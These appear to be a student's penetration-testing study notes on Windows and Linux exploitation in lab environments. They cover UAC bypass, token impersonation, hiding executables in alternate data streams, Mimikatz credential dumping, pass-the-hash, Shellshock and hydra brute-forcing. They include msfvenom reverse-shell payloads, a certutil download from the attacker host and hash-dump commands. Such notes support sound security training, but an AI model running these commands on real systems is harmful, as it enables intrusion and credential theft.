
+ UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation 
+ There are multiple tools and techniques that can be used to bypass UAC, however, the tools and technique used will depend on the version of Windows running on the target system 

#### Bypassing UAC With UACMe ####
+ UACMe is an open source, robust privilege escalation tool developed by @hfire0x, it can be used to bypass Windows UAC by leveraging various techniques 
  + Github: https://github.com/hfiref0x/UACME
+ The UACME github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to 10
+ It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileged by abusing the inbuilt Windows AutoElevate tool
+ The UACMe Github repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target 

Once a foothold is gotten with a shell, can check privileges 
+ in meterpreter, can do `getprivs` if not very many, escalation will be needed 
+ Can start a shell with the `shell` command
  + can do `net user` and net `localgroup administrators` to get more info about the user
+ So even if the user is apart of the admin group, can not run admin commands without UAC bypasses
  + Example: Changing the password with `net user admin password123` will get denied

Will first generate a payload with <r>msfvenom</r>
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=1234 -f exe > backdoor.exe`

Then will set up a listener in <r>msfconsole</r>
+ Example: `use multi/handler`
+ then set the payload: `set payload windows/meterpreter/reverse_tcp`
+ set LHOST and LPORT

Will go back to the meterpreter session on the target
+ Will `mkdir Temp` as it is a good place to put exe's
+ Will `upload backdoor.exe`
+ And upload the UACMe payload, Example: `upload /root/Desktop/tools/UACME/Akagi64.exe`
+ To run, will `.\Akagi64.exe 23 c:\Temp\backdoor.exe`, and can check listener that it works
  + where 23 represents the key or method
+ The listener will now start and can run `getprivs` to see if it worked
+ can see what other process are running with `ps` and even migrate to them with `migrate PROCESS_NUMBER`
  + After that can do something like get the hashes with `hashdump`

### Access Token Impersonation ###

#### Windows Access Tokens ####
+ Windows access tokes are a core element of the authentication process on Windows and are created and managed by the ***Local Security Subsystem Service*** (LSASS)
+ Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access toke can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resources without having to provide credentials each time a process is started or a system resources is accessed.
+ Access tokens are generated by the `winlogon.exe` process every-time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the `userinit.exe` process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token 
+ Windows access tokens are categorized based on the varying security levels assigned to them 
  + These security levels are used to determine the privileges that are assigned to a specific token 
+ An access token will typically be assigned one of the following security levels:
  + <b>Impersonate-level</b> tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons
    + <o>Can be used to impersonate a token on the local system and not any external systems that utilize the token</o>
  + <b>Delegate-level</b> tokens are typically created through an interactive login on windows, primarily through a tradition login, or through RDP
    + <o>Pose the</o> <r>largest threat</r> <o>as they can be used to impersonate tokens on any system

#### Windows Privileges ####
+ The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available 
+ The following are the privileges that are required for successful impersonation attacks:
  + <o>`SeAssignPrimaryToken`</o>: Allows a user to impersonate tokens
  + <o>`SeCreateToken`</o>: This allows a user to create an arbitrary token with admin privileges 
  + <o>`SeImpersonatePrivilege`</o>: Allows a user to create a process under the security context of another user typically with admin privileges 

#### The Incognito Module ####
+ `Incognito` is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation 
+ Can use the incognito module to display a list of available tokes that we can impersonate 

to migrate a meterpreter system (for example you run a 32 bit shell on a 64 bit server):
+ `pgrep explorer` will look for the process id for the explorer.exe process
+ then will `migrate PROCESS_NUMBER`
+ <r>Note:</r> Will not work if on a unprivileged user account, which can be checked with `getuid` and `getprivs`

After running `getprivs` can see <b>available tokens</b>
+ if we have the <o>`SeImpersonatePrivilege`</o> token
  + This means the user account is able to impersonate other access tokens 

will now use <r>incognito</r> module by doing the following:
+ `load incognito`
+ Then will `list_tokens -u` to see the user account tokens
+ Then can use `impersonate_token "NAME_OF_TOKEN"` to impersonate that user and have elevate privileges 
+ Will now have to use `pgrep explorer` to find the new session to `migrate` to

Without having a token like <o>`SeImpersonatePrivilege`</o>, will have to use a <r>potato</r> attack to generate the token
+ depends on what user accounts in the group have the privileges 

## Windows File System Vulnerabilities ##

### Alternate Data Streams ###

+ Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (hierarchical File System)
+ Any file created on an NTFS formatted drive will have two different forks/streams:
  + ***Data stream*** - Default stream that contains the data of the file
  + ***Resource stream*** - Typically contains the metadata of the file 
+ Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detections 
+ This can be done by storing the malicious code or exe in the file attribute resource stream (metadata) of a legitimate file 
+ This technique is usually used to evade basic signature based AVs and static scanning tools 

In windows, can create a file from the command shell with <o>`notepad`</o>
+ Example: `notepad text.txt`
+ Will open it in notepad

After writing some text in the txt, can access the ***Data stream*** by clicking on it, and the ***Resource stream*** by right clicking and selecting `properties`
+ contains the metadata 

Can hide a file in the ***Resource stream*** with a `:`
+ Example: `notepad text.txt:secret.txt`
+ When you close it, it will only have what is in text.txt, and when the contents are listed with `dir` will only see text.txt

Can do the same with a exe <r>payload</r>
+ Example `type payload.exe > windowsLog.txt:winpease.exe`
  + will put what is in the payload hidden in windowsLog.txt, named winpease.exe
+ Might want to put some info in the text file to make it look like a normal file 
+ can run that exe with: `start windowsLog.txt:winpease.exe`
+ If that does not work will have to make a link by doing: `mklink wupdate.exe C:\Temp\windowslog.txt:winpease.exe`
  + now whenever we type `wupdate` in the console, it will run that exe

## Windows Credential Dumping 

### Windows Password Hashes ###

+ This Windows OS stores hashed user account passwords locally in the ***SAM (Security Accounts Manager)*** database
+ Hashing is the process of converting a piece of data into anther value. A hashing function or algorithm is used to generate the new value. The result of the hashing algorithm is known as a hash or hash value
  + In order to avoid storing passwords in clear text
+ Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA)
+ Windows versions up to Windows Server 2003 utilize two different types of hashes:
  + ***LM***
  + ***NTLM***
+ Windows disables ***LM*** hashing and utilized ***NTLM*** hashing from Windows Vista onwards

#### SAM Database ####
+ `SAM` (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed
+ The SAM database file cannot be copied while the OS is running
+ The Windows NT kernel keeps the SAM database file locked and as a result attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process
  + <o>Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA)</o>
    + Has a cache that will be attempted to be dumped
+ In modern versions of Windows, the SAM database is encrypted with a syskey 
+ <r>Note:</r> Elevated/Administrative ***privileges*** are required in order to access and interact with the LSASS process 

#### LM (LanMan) ####
+ LM is the default hashing algorithm that was implemented in Windows OS prior to NT4.0
+ The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps :
  + The password is broken into two seven-character chunks
  + All character are then converted into uppercase
    + <o>Not Case Sensitive</o>
  + Each chunk is then hashed separately with the <b>DES</b> algorithm 
+ LM hashing is generally considered to be a <r>weak</r> protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making ***brute-force*** and ***rainbow table*** attacks effective against LM hashes



#### NTLM (NTHash) ####
+ NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication involves using a valid username and password to authenticate successfully 
+ From Windows Vista onwards. Windows disables LM hashing and utilizes NTLM hashing 
+ When a user account is created, it is encrypted using the <b>MD4</b> hashing algorithm, while the original password is disposed of 
+ NTLM improves upon LM in the following ways:
  + Does ***not*** split the hash in to two chunks 
  + Case sensitive
  + Allows the use of symbols and unicode characters
  + Still no password salts



### Searching For Passwords In Windows Configuration Files ###

#### Windows Configuration Files ####
+ Windows can automate a variety of repetitive tasks as the mass rollout or installation of Windows on many systems
+ This is typically done through the use of the <o>Unattended Windows Setup</o> utility, which is used to automate the mass installation/deployment of Windows on systems 
+ This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrators account's password
+ If the <o>Unattended Windows Setup</o> configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately 

#### Unattended Windows Setup ####
+ The Unattended Windows setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
  + `C:\Windows\Panther\Unattend.xml`
  + `C:\Windows\Panther\Autounattend.xml`
+ As a security precaution, the passwords stored in the <o>Unattended Windows Setup</o> configuration file may be encoded in <b>base64</b>

On a unprivileged windows account, can check for other users with `net user`
+ can also so the unprivileged accounts privileges with `whoami /priv`

On a kali OS, we will generate a reverse shell with <r>msfvenom</r>
+ Example: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe`

With the payload, can set up a simple http server with the python module <o>SimpleHTTPServer</o> on the kali OS
+ Example: `python -m SimpleHTTPServer 80`
+ Now we can go to the windows computer we are attacking, and use the server we are running on the kali os to allow the windows computer to download the payload 

On the windows computer we are attacking, can download the payload with <o>certutil</o>
+ Example: `certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe` where the IP is the Kali computer 

Will now go into <r>msfconsole</r> to set up the handler
+ Can do so with: `service postgresql start && msfconsole`
+ Will then `use multi/handler`
  + `set payload windows/x64/meterpreter/reverse_tcp`
  + `set LPORT 1234`
  + `set LHOST 10.10.9.2`
+ Will now have a reverse shell after running it, can find the unattend.xml and `download` it

When we `cat` the unattend.xml, we will scroll till we see `<AutoLogon>`
+ Example:
``` xml
<AutoLogon>
    <Password>
        <Value>QWRtaW5AMTIz</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>administrator</Username>
```
+ Here we can see the administrators password, and that it is <b>base64</b> encoded because the `<PlainText>` value is ***false***

To remove the <b>base64</b> encoding, will do the following:
+ `vim password.txt` and paste the encoded password in it
+ Utilize the <o>base64</o> tool with the `-d` option to decode
  + Example: `base64 -d password.txt`
    + which outputs `Admin@123`

Can verify it is the right credentials with <r>psexec</r> 
+ Example: `psexec.py Administrator@10.3.21.57`
  + It will then ask for the password
+ Now have access to the target system as an admin 

### Dumping Hashes With Mimikatz ###

#### Mimikatz ####
+ <r>Mimikatz</r> is a Windows post-exploitation tool written by Benjamin Delpy
  + Allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory 
+ The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords
+ Mimikatz can be used to extract hashes from the ***lsass.exe*** process memory where hashes are cached 
+ Can utilize the pre-compiled mimikatz executable, alternatively, if we have have access to a meterpreter session on a Windows target, can utilize the inbuilt meterpreter extension <r>Kiwi</r> 

<r>NOTE:</r> Mimikatz require's elevate privileges in order to run correctly 

Can find the process ID for <o>lsass</o> with:
  + `pgrep lsass`
  + With admin privileges, can `migrate` to that process
  + Will now run `getuid`, if `NT AUTHORITY\SYSTEM`, we now have the highest privileges 

Will now start using <r>kiwi</r>
+ `load kiwi`
+ can see help menu with `?`
+ `creds_all` will dump all credentials 
  + Though later windows versions do not store clear text passwords at all
+ `lsa_dump_sam` will drop all the NTLM hashes for the users on the system
  + can provide the SysKey 
+ `lsa_dump_secrets` can provide some clear text credentials in some cases 

Can upload <r>Mimikatz</r> executable with the following:
+ Will need to upload with a meterpreter session, and should make or use the `Temp` folder
+ `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
+ Will the start a command shell session with `shell`
+ can executive it with `.\mimikatz.exe`
+ Now that mimikatz has started, will check if we have permissions to use it with `privilege::debug`
  + if we get `Privilege '20' OK`, we can run it 
+ Can now dump the hashes with: `lsadump::sam`
  + will provide much more information then kiwi 
+ can dump secrets with `lsadump::secrets`
+ can also potentially see clear text login passwords with `sekurlsa::logonpasswords`

### Pass-The-Hash Attacks ###

What can we do with NTLM hashes apart from cracking them?
+ can perform a pass the hash

#### Pass-the-Hash ####
+ Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately 
+ Can use multiple tools to facilitate a Pass-The-Hash attack:
  + <r>Metasploit PsExec module</r> 
  + <r>Crackmapexec</r> 
+ This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation 
  + This will allow persistence even if there is a patch 

For the <r>Metasploit PsExec module</r> , will also need the lm hash
+ can do so with `hashdump`
  + Example output: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::`
  + This can be parsed as: `USERNAME:SID:LM_HASH:NTLM_HASH:::`
+ Will now `use exploit/windows/smb/psexec`
  + `set LPORT 4422`
  + `set RHOSTS 10.3.31.228`
  + `set SMBUSER Administrator`
  + `set SMBPASS PASSWORD_HASH` Notice that a hash is possible, but can also use clear text password
    + Will need to pass both the LM and NTLM Hash
      + Example: `aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
+ Can now `run` and get a meterpreter session 

Can also use pass the hash with <r>Crackmapexec</r> 
+ `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"`
  + not that the `-H` is the NTLM hash 
  + This will let you know if it is Pwn3d, can now use the `-x` flag to run commands 
    + Example: `crackmapexec smb 10.3.31.228 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"`

# Linux #

## Linux Vulnerabilities ##

### Frequently Exploited Linux Services ###

+ Linux is a free and open source OS what is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman 
+ This combination of open source software is what makes up the Linux OS as a whole, commonly referred to as GNU/Linux
+ Linux has various use cases, however, it is typically deployed as a server OS. That means there are specific services and protocols that will typically be found running on a Linux server
+ These services provide an attacker with an access vector that they can utilized to gain access to the target host
+ Having a good understanding of what these services are, how they work, and their potential vulnerabilities is a vitally important skill to have as a penetration tester 

Services:


## Exploiting Linux Vulnerabilities ##

### Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock) ###

Allows an attacker to remotely execute arbitrary commands on the target 
+ Vectors are Apache and Bash shell

#### CVE-2014-6271 - Shellshock ####
+ <pu>Shellshock</pu> (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allows an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell
+ The Shellshock vulnerability was discovered by Stephane Chazelas on 12th of September 2014 and was made public on the 24th of September 2014
+ Bash is a *Nix (unix) shell that is part of the GNU project and is the default shell for most Linux distribution 
+ The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: `() [:;];.`
+ This vulnerability only affects Linux as Windows does not use Bash as it is not a *Nix based OS
+ In the context or remote exploitation, ***Apache web*** servers configured to run `CGI` scripts or `.sh` scripts are also vulnerable to this attack 
+ `CGI` (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client
+ In order to exploit this vulnerability, will need to <o>locate an input vector or script that allows you to communicate with Bash</o>
+ In the context of an Apache web server, can utilize any legitimate CGI scripts accessible on the web server 
+ Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash
+ This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module 

#### Shellshock Exploitation ####

Looking at an Apache server, it can be seen that there is a dynamic countdown of a server coming online:


Looking at the code, it can be seen that this is accomplished with a `.cgi` script:


+ This tells use the script `/gettime.cgi` is in the root, accessible, and uses bash
  + A good potential vector 

To verify it is vulnerable, will use an <o>nmap</o> script <o>--script=http-shellshock</o>
+ Example: `nmap -sV 192.45.16.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`
  + <r>Note:</r> see that the script args are specified with where the `.cgi` file is 

Will then search the location of the script with burp proxy on 
+ In this example it would be `192.24.241.3/gettime.cgi`
+ Which will catch the following:



Will then change the User-Agent info to have the `() [:;];.` characters followed by the commands we want to run 



Can now use this to setup a <r>Reverse Shell</r>
+ Will first set up a kali <b>listener</b> 
  + Example `nc -nvlp 1234`
+ Then will send the following:



Can do things such as 
  + `whoami`
  + see distribution with `cat /etc/*issue`
  + Kernel info with `uname -a`

Can automate this process with <r>msfconsole</r>
+ can `search shellshock`
+ `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
+ `set RHOSTS 192.45.16.3`
+ specify the path to the `.cgi` script with `set TARGETURI /gettime.cgi`
+ After running it, will have a meterpreter session 

### Exploiting FTP ###

#### Exploiting FTP ####
+ `FTP` (File Transfer Protocol) uses TCP port 21 and is used to facilitate file sharing between a server and clients
+ Frequently used as a means of transferring files to and from the director of a web server 
+ FTP authentication requires a username and password combination. So we can brute-force attack on the FTP server in order to identify legitimate credentials
+ In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access the Ftp server without providing any legitimate credentials

Can check for `anonymous` access with the following ways 
+ `ftp TARGET_IP` and then put `anonymous` for the user name, skip the password (enter)
+ or use an <o>nmap script</o> specifically:  <o>--script=ftp-anon</o>
  + Note can look for nmap scripts with `ls -al /usr/share/nmap/scripts/ | grep ftp-*`

Can also brute-force with <pu>hydra</pu>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.27.30.3 -t 4 ftp`
  + `-L` specifies user list
  + `-P` specifies password list
  + `-t` specifies numbers of threads 
  + `ftp` is used to specify the service

With the credentials can log in using `ftp TARGET_IP`, and typing in the credentials
+ can download a file with `get FILE_NAME` 

### Exploiting SSH ###

+ `SSH` (Secure Shell) is a remote admin protocol that offers encryption and is the successor to Telnet
+ Typically used for remote access to servers and systems 
+ SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port
+ SSH authentication can be configured in two ways:
  + Username & password authentication 
  + Key based authentication 
+ In the case of username and password authentication, can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system 

Can also brute-force with <pu>hydra</pu>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 192.16.191.3 ssh`
  + `-L` specifies user list
  + `-P` specifies password list
  + `-t` specifies numbers of threads 
  + `ssh` is used to specify the service

Can now login with `ssh USERNAME@TARGET_IP`
+ Will type in the password 
+ Can now use any CLI commands such as: 
  + `cat /etc/*issue`
  + `uname -r`
  + `cat /etc/passwd`

### Exploiting SAMBA ###

+ `SMB` (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN
+ SMB uses port 445 (TCP). However, originally SMB ran on top of NetBIOS using port 139
+ `Samba` is the Linux implementation  of SMB, and allows Windows systems to access Linux shares and devices 
+ `SAMBA` utilizes username and password authentication in order to obtain access to the server or a network share 
+ Can perform a brute-force attack on the `SAMBA` server in order to obtain legitimate credentials 
+ After obtaining legitimate credentials, can use a utility called SMBMap in order to enumerate SAMBA share drives, list the contents of shares, as well as download files and execute remote commands on the target 
+ Can also utilize a tool called smbclient
  + smbclient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to the ftp program. It can be used to download files from the server to the local machine, upload files from the local machine to the server as well as retrieve dictionary information from the server

Can brute-force with <pu>hydra</pu>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 192.16.191.3 smb`
  + `-L` specifies user list
  + `-P` specifies password list
  + `-t` specifies numbers of threads 
  + `ssh` is used to specify the service

can now use <o>smbmap</o> to scan
+ To enumerate the shares can use: `smbmap -H 192.67.177.3 -u admin -p password1`

can now use <o>smbclient</o> to interact with the shares
+ Example: `smbclient -L 192.67.177.3 -U admin`
  + where it lists out the shares with the user admin 
+ Can connect to a share with: `smbclient //192.67.177.3/SHARE_NAME -U USER_NAME`
  + can download with `get`

<g>enum4linux</g> can also be used to enumerate information on a target related to `SAMBA` 
+ example: `enum4linux -a TARGET_IP`
  + where `-a` means all

## Linux Privilege Escalations ##

### Linux Kernel Exploits ###

+ Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell
+ This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used
+ Privilege escalation on Linux systems will typically follow the following methodology:
  + Identify kernel vulnerabilities 
  + Downloading, compiling and transferring kernel exploits on to the target system 

#### Tools ####
+ <pu>Linux-Exploit-Suggester</pu>
  + Designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine
  + Will
  + It accesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit
  + Will need to download from the github
    + upload to target, and run it 
      + Will show exploits, how to download, in order of what is most likely to work 

<r>Warning: </r> Running non compatible exploits can cause crashes or kernel panics (data loss)

### Exploiting Misconfigured Cron Jobs ###

#### Cron Job ####
+ Linux implements task scheduling through a utility called <b>Cron</b>
+ Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule 
+ An application, or script that has been configured to be run repeatedly with Cron is known as a <b>Cron job</b>. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches
+ The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.

#### Exploiting Cron Job ####
+ Cron jobs can also be run as any user on the system, this a is very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the "root" user
+ This is primary because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access 
+ In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job 

Can list Cron Jobs with `crontab -l`
